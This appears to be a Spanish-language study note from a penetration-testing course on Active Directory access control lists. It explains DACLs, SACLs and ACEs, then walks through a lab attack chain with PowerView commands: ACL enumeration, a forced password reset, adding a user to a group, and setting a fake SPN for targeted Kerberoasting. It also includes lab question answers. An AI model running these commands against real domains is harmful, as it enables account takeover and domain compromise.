







## Lista de Control de Acceso (ACL)

En su forma más simple, los ACLs son listas que definen:

a. quién tiene acceso a qué activo/recursos 
b. el nivel de acceso que están acondicionados. 

Los propios escenarios en un ACL se llaman `Access Control Entries`(`ACEs`). Cada ACE vuelve a un usuario, grupo o proceso (también conocido como directores de seguridad) y define los derechos concedidos a ese director. Cada objeto tiene un ACL, pero puede tener múltiples ACEs porque varios directores de seguridad pueden acceder a objetos en AD. Los ACLs también se pueden utilizar para auditar el acceso dentro de AD.

Hay dos tipos de ACLs:

1. `Discretionary Access Control List`(`DACL`) - define qué directores de seguridad se concede o se les niega el acceso a un objeto. Los DACL están formados por ACEs que permiten o niegan el acceso. Cuando alguien intente acceder a un objeto, el sistema comprobará el DACL por el nivel de acceso permitido. Si un DACL no existe para un objeto, todos los que intentan acceder al objeto gozan de pleno derecho. Si existe un DACL, pero no tiene ninguna entrada ACE que especifique la configuración de seguridad específica, el sistema negará el acceso a todos los usuarios, grupos o procesos que intenten acceder a él.
    
2. `System Access Control Lists (SACL)`- Permitir a los administradores acceder a los intentos de seguridad de los objetos.
    

Vemos el ACL para la cuenta de usuario `forend`en la imagen de abajo. Cada artículo en la partida `Permission entries`lo hace. `DACL`para la cuenta de usuario, mientras que las entradas individuales (como `Full Control`o o `Change Password`) son entradas de ACE que muestran derechos otorgados sobre este objeto de usuario a varios usuarios y grupos.

#### Ver el ACL



Los SACL se pueden ver dentro de la pestaña `Auditing`.

#### Ver los SACL a través de la pestaña Auditing



## Entradas de control de acceso (ACE)

Como se indicó anteriormente, las Listas de Control de Acceso (ACL) contienen entradas ACE que nombran a un usuario o grupo y el nivel de acceso que tiene sobre un objeto securable dado. Los hay. `three`tipos principales de ACE que se pueden aplicar a todos los objetos securables en la EA:

|**ACE**|**Descripción**|
|---|---|
|`Access denied ACE`|Utilizado dentro de un DACL para mostrar que a un usuario o grupo se le niega explícitamente el acceso a un objeto|
|`Access allowed ACE`|Utilizado dentro de un DACL para mostrar que un usuario o grupo tiene explícitamente acceso a un objeto|
|`System audit ACE`|Utilizado dentro de un SACL para generar registros de auditoría cuando un usuario o grupo intenta acceder a un objeto. Registía si se concedía o no el acceso y qué tipo de acceso se había producido|

Cada ACE se compone de lo siguiente `four`componentes:

1. El identificador de seguridad (IDA) del usuario/grupo que tiene acceso al objeto (o nombre principal gráficamente)
2. Una bandera que denota el tipo de ACE (acceso denegado, permitido o auditoría del sistema ACE)
3. Conjunto de banderas que especifican si los contenedores/objetos infantiles pueden heredar o no la entrada de la ECA dada del objeto primario o padre
4. Una [máscara](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/7a53f60e-e730-4dfe-bbe9-b21b62eb790b?redirectedfrom=MSDN) de [acceso](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/7a53f60e-e730-4dfe-bbe9-b21b62eb790b?redirectedfrom=MSDN) que es un valor de 32 bits que define los derechos concedidos a un objeto

Podemos ver esto gráficamente en `Active Directory Users and Computers`(`ADUC`). En la imagen de ejemplo de abajo, podemos ver los siguientes para la entrada ACE para el usuario `forend`:

#### Ver permisos a través de Usuarios e Informáticas de Directorio Activo



1. La directora de seguridad es Angela Dunn (adunn-inlanefreight.local)
2. El tipo ACE es `Allow`
3. La herencia se aplica a "Este objeto y todos los objetos descendientes, que significa cualquier niño objeto de la `forend`objeto tendría los mismos permisos concedidos
4. Los derechos concedidos al objeto, mostrados de nuevo gráficamente en este ejemplo

Cuando las listas de control de acceso se revisan para determinar los permisos, se comprueban de arriba abajo hasta que se encuentra un acceso denegado en la lista.

---

## Por qué los ACE son importantes?

Los atacantes utilizan entradas de ACE para acceder o establecer la persistencia. Estos pueden ser geniales para nosotros, ya que muchos organismos desconocen los ACE aplicados a cada objeto o el impacto que estos pueden tener si se aplican incorrectamente. No pueden ser detectados por herramientas de escaneo de vulnerabilidad, y a menudo pasan desapercibidas durante muchos años, especialmente en entornos grandes y complejos. Durante una evaluación en la que el cliente se ha ocupado de todos los defectos/configuraciones de la fruta de "baja colgación" AD, el abuso de ACL puede ser una gran manera para nosotros de movernos lateral/verso e incluso lograr un compromiso de dominio completo. Algunos permisos de seguridad de objetos Active Directory son los siguientes. Estos pueden ser enumerados (y visualizados) usando una herramienta como BloodHound, y todos son abusables con PowerView, entre otras herramientas:

- `ForceChangePassword`abusadas con `Set-DomainUserPassword`
- `Add Members`abusadas con `Add-DomainGroupMember`
- `GenericAll`abusadas con `Set-DomainUserPassword`o o `Add-DomainGroupMember`
- `GenericWrite`abusadas con `Set-DomainObject`
- `WriteOwner`abusadas con `Set-DomainObjectOwner`
- `WriteDACL`abusadas con `Add-DomainObjectACL`
- `AllExtendedRights`abusadas con `Set-DomainUserPassword`o o `Add-DomainGroupMember`
- `Addself`abusadas con `Add-DomainGroupMember`

En este módulo, cubriremos la enumeración y el apalancamiento de cuatro ECA específicos para resaltar el poder de los ataques de ACL:

- [ForceChangePassword](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#forcechangepassword) - nos da el derecho de restablecer la contraseña de un usuario sin antes conocer su contraseña (debe ser utilizado con cautela y típicamente mejor para consultar a nuestro cliente antes de restablecer las contraseñas).
- [GenéricoWrite](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericwrite) - nos da el derecho de escribir a cualquier atributo no protegido en un objeto. Si tenemos este acceso a un usuario, podríamos asignarles un SPN y realizar un ataque Kerberoasting (que se basa en la cuenta de destino con un ajuste de contraseña débil). Sobre un grupo significa que podríamos añadir nosotros mismos o otro director de seguridad a un grupo dado. Por último, si tenemos este acceso a un objeto informático, podríamos realizar un ataque de delegación limitado basado en los recursos que está fuera del alcance de este módulo.
- `AddSelf`- muestra a los grupos de seguridad a los que un usuario puede añadir.
- [Genérico Todo](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericall) - esto nos otorga el control total sobre un objeto objetivo. Una vez más, dependiendo de si esto se concede a través de un usuario o grupo, podríamos modificar la membresía del grupo, forzar un cambio de contraseña o realizar un ataque de Kerberoasting dirigido. Si tenemos este acceso a través de un objeto informático y la [Solución de Contraseña Administrador Local (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) está en uso en el medio ambiente, podemos leer la contraseña de LAPS y obtener acceso administrativo local a la máquina que puede ayudarnos en movimiento lateral o escalada de privilegios en el dominio si podemos obtener controles privilegiados o obtener algún tipo de acceso privilegiado.

Este gráfico, adaptado a partir de un gráfico creado por [Charlie Bromberg (Shutdown](https://twitter.com/_nwodtuhs)), muestra un excelente desglose de los diferentes posibles ataques de ACE y las herramientas para realizar estos ataques desde Windows y Linux (si procede). En las siguientes pocas secciones, cubriremos principalmente la enumeración y realización de estos ataques de un host de ataque de Windows con menciones de cómo estos ataques podrían ser realizados desde Linux. Un módulo posterior específicamente en ACL Attacks irá mucho más en profundidad en cada uno de los ataques enumerados en este gráfico y cómo realizarlos desde Windows y Linux.



Nos encontraremos con muchos otros ACE interesantes (privilegios) en Active Directory de vez en cuando. La metodología para enumerar posibles ataques de ACL usando herramientas como BloodHound y PowerView e incluso herramientas de gestión AD integradas debe ser lo suficientemente adaptable para ayudarnos cada vez que encontremos con nuevos privilegios en la naturaleza con las que todavía no estamos familiarizados. Por ejemplo, podemos importar datos en BloodHound y ver que un usuario sobre el que tenemos control (o potencialmente puede asumirlo) tiene los derechos de leer la contraseña de una cuenta de servicio gestionado de grupo (gMSA) a través del borde [de la palabra ReadGMSAPass.](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#readgmsapassword) En este caso, hay herramientas como [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) que podríamos utilizar, junto con otros métodos, para obtener la contraseña de la cuenta de servicio en cuestión. Otras veces podemos encontrarnos con derechos [extendidos](https://learn.microsoft.com/en-us/windows/win32/adschema/r-unexpire-password) como [Unexpire-Password](https://learn.microsoft.com/en-us/windows/win32/adschema/r-unexpire-password) o [Reanimate-Tombstones](https://learn.microsoft.com/en-us/windows/win32/adschema/r-reanimate-tombstones) usando PowerView y tenemos que hacer un poco de investigación para averiguar cómo explotarlos para nuestro beneficio. Vale la pena familiarizarse con todos los [bordes](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html) de [BloodHound](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html) y tantos [Derechos Extendidos](https://learn.microsoft.com/en-us/windows/win32/adschema/extended-rights) de Directorio Activo como nunca sepa cuando puede encontrarse con uno menos común durante una evaluación.

---

## Ataques de ACL

Podemos usar ataques de ACL para:

- Movimiento lateral
- Escalada de privilegios
- Persistencia

Algunos escenarios de ataque comunes pueden incluir:

|Ataque|Descripción|
|---|---|
|`Abusing forgot password permissions`|Help Desk y otros usuarios de TI a menudo reciben permisos para realizar reinicios de contraseña y otras tareas privilegiadas. Si podemos tomar una cuenta con estos privilegios (o una cuenta en un grupo que confiere estos privilegios a sus usuarios), podemos ser capaces de realizar un restablecimiento de contraseña para una cuenta más privilegiada en el dominio.|
|`Abusing group membership management`|También es común ver Help Desk y otros empleados que tienen derecho a agregar/quitar usuarios de un grupo determinado. Siempre vale la pena enumerar esto más a fondo, ya que a veces podemos ser capaces de añadir una cuenta que controlamos en un grupo AD integrado privilegiado o un grupo que nos concede algún tipo de privilegio interesante.|
|`Excessive user rights`|También vemos comúnmente objetos de usuario, computadora y grupo con derechos excesivos que un cliente probablemente desconoce. Esto podría ocurrir después de algún tipo de instalación de software (Exchange, por ejemplo, añade muchos cambios de ACL en el entorno en el tiempo de instalación) o algún tipo de configuración heredada o accidental que le dé a un usuario derechos no deseados. A veces podemos tomarnos a relevo una cuenta que se dio a ciertos derechos por conveniencia o para resolver un problema de regaño más rápidamente.|

Hay muchos otros posibles escenarios de ataque en el mundo de Active Directory ACLs, pero estos tres son los más comunes. Cubriremos estos derechos de varias maneras, realizando los ataques y limpiando después de nosotros mismos.

---

#### What type of ACL defines which security principals are granted or denied access to an object? (one word)

Respuesta: `DACL`

#### Which ACE entry can be leveraged to perform a targeted Kerberoasting attack?

Respuesta: `GenericAll`

---

# Enumeración de ACL

---

Vamos a saltar a la enumeración de los ACLs usando PowerView y caminar a través de algunas representaciones gráficas usando BloodHound. A continuación, cubriremos algunos escenarios/ataques donde los ACE que enumeramos pueden ser aprovechados para obtener un mayor acceso en el entorno interno.

---

## Enumerando ACLs con PowerView

Podemos usar PowerView para enumerar los ACLs, pero la tarea de excavar a través de _todos_ los resultados será extremadamente lenta y probablemente inexacta. Por ejemplo, si ejecutamos la función `Find-InterestingDomainAcl`Recibiremos una gran cantidad de información de vuelta que tendríamos que buscar para dar algún sentido a:

```PowerShell
powershell -ep Bypass

Import-Module .\PowerView.ps1
```

#### Uso de Find-InterestingDomainAcl

```powershell
Find-InterestingDomainAcl
```

Si tratamos de profundizar en todos estos datos durante una evaluación de caja de tiempo, es probable que nunca lo superemos todo o encontraremos nada interesante antes de que la evaluación haya terminado. Ahora, hay una manera de usar una herramienta como PowerView más eficazmente, al realizar una enumeración dirigida a partir de un usuario sobre el que tenemos el control. Centrémonos en el usuario `wley`, que obtuvimos después de resolver la última pregunta en la sección `LLMNR/NBT-NS Poisoning - from Linux`. Vamos a cavar y ver si este usuario tiene algún derecho ACL interesante que podamos aprovechar. Primero tenemos que conseguir que el SID de nuestro usuario objetivo busque con eficacia.

```powershell
$sid = Convert-NameToSid wley
```

Podemos usar la función `Get-DomainObjectACL` para realizar nuestra búsqueda dirigida. En el ejemplo siguiente, estamos utilizando esta función para encontrar todos los objetos de dominio que nuestro usuario tiene derechos sobre mapping el SID del usuario usando la variable`$sid` con la propiedad `SecurityIdentifier` que es lo que nos dice _quién_ ha dado derecho sobre un objeto. 
Una cosa importante a notar es que si buscamos sin la flag `ResolveGUIDs`, veremos resultados como el de abajo, donde el `ExtendedRight` no nos da una imagen clara de qué entrada ACE tiene el usuario `wley` sobre `damundsen`. Esto se debe a que la propiedad `ObjectAceType` está devolviendo un valor GUID que no es legible por humanos.

```powershell
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

Podríamos buscar en Google el valor GUID `00299570-246d-11d0-a768-00aa006e0529` y descubrir esta página que muestra que el usuario tiene derecho a forzar el cambio de la contraseña del otro usuario. Alternativamente, podríamos hacer una búsqueda inversa usando PowerShell para mapear el nombre correcto de vuelta al valor GUID.

#### Mapeo inverso de un valor GUID

```powershell
$guid= "00299570-246d-11d0-a768-00aa006e0529"

Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

#### Mediante -ResolveGUIDs Flag

```powershell
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

#### Creación de una lista de usuarios de dominio

```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```

---

#### What is the rights GUID for User-Force-Change-Password?



Respuesta: `00299570-246d-11d0-a768-00aa006e0529`
#### What flag can we use with PowerView to show us the ObjectAceType in a human-readable format during our enumeration?

Respuesta: `ResolveGUIDs`
#### What privileges does the user damundsen have over the Help Desk Level 1 group?

```Powershell
$sid2 = Convert-NameToSid damundsen
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
```

Respuesta: `GenericWrite`
#### Using the skills learned in this section, enumerate the ActiveDirectoryRights that the user forend has over the user dpayne (Dagmar Payne).



Respuesta: `GenericAll`
#### What is the ObjectAceType of the first right that the forend user has over the GPO Management group? (two words in the format Word-Word)



Respuesta: `Self-Membership`

---

## Abuso de ACLs

Una vez más, para recapitular dónde estamos y hacia dónde queremos llegar. Tenemos el control de la `wley`usuario cuyo hash NTLMv2 recuperamos ejecutando Responder antes en la evaluación. Por suerte para nosotros, este usuario estaba usando una contraseña débil, y pudimos desconectar el hash offline usando Hashcat y recuperar el valor de texto claro. Sabemos que podemos utilizar este acceso para poner en marcha una cadena de ataque que nos llevará a tomar el control de la `adunn`usuario que puede realizar el ataque de DCSync, lo que nos daría el control total del dominio permitiéndonos recuperar los contratiempos NTLM para todos los usuarios en el dominio y aumentar los privilegios a Domain/Enterprise Admin e incluso lograr la persistencia. Para realizar la cadena de ataque, tenemos que hacer lo siguiente:

1. Utilice el `wley`usuario para cambiar la contraseña de la `damundsen`usuario
2. Aututo como el `damundsen`usuario y apalancamiento `GenericWrite`los derechos de añadir un usuario que controlamos a la `Help Desk Level 1`grupo
3. Aproveche la membresía de grupo anidado en el `Information Technology`grupo y apalancamiento `GenericAll`derechos a tomar el control de la `adunn`usuario

Así que, primero, debemos autenticarnos como `wley`y la fuerza cambia la contraseña del usuario `damundsen`. Podemos empezar abriendo una consola PowerShell y autentiéndose como la `wley`usuario. De lo contrario, podríamos saltarnos este paso si ya estuviéramos funcionando como este usuario. Para ello, podemos crear un [objeto PSCredential](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0).

#### Creación de un objeto PSCredential

```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

#### Creación de un objeto de resolución segura

```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```


#### Cambiar la contraseña del usuario

```powershell
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```


#### Creación de un objeto de resolución segura usando damundsen


```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

#### Añadir damundsen al grupo de nivel 1 de Help Desk

```powershell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

#### Confirmando damundsen se agregó al Grupo

```powershell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

#### Creación de un falso SPN

```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```


